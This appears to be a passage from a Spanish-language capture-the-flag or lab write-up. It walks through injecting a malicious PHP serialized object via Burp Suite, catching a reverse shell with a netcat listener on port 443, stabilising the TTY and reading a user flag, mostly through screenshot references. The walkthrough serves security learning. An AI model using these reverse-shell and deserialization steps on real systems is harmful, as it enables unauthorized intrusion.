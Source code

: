 ![[Pasted image 20230801115652.png]]

```
php Pwned.php 2>/dev/null; echo
```

![[Pasted image 20230801115809.png]]

==La serialización parce ser correcta y procedemos a inyectarla en el input del servicio e interceptamos la peticion con burpsuite.

![[Pasted image 20230801120333.png]]

==Antes de dar forwoard debemos estar en escucha con nc en el puerto 443
```
sudo nc -nlvp 443
```
![[Pasted image 20230801120650.png]]

![[Pasted image 20230801120841.png]]

==Intercambiamos la serialización por la maliciosa y obtenemos acceso.

---
### Tratamiento de Shell y tty

```
stty raw -echo; fg
```

![[Pasted image 20230801121316.png]]

```
export TERM=xterm
```

![[Pasted image 20230801121420.png]]

```
cd /home/
ls
cd rocky/ && cat local.txt
```

![[Pasted image 20230801121536.png]]

---
### Usuario Rocky.

```
cat /etc/os-release
```
![[Pasted image 20230801122245.png]]
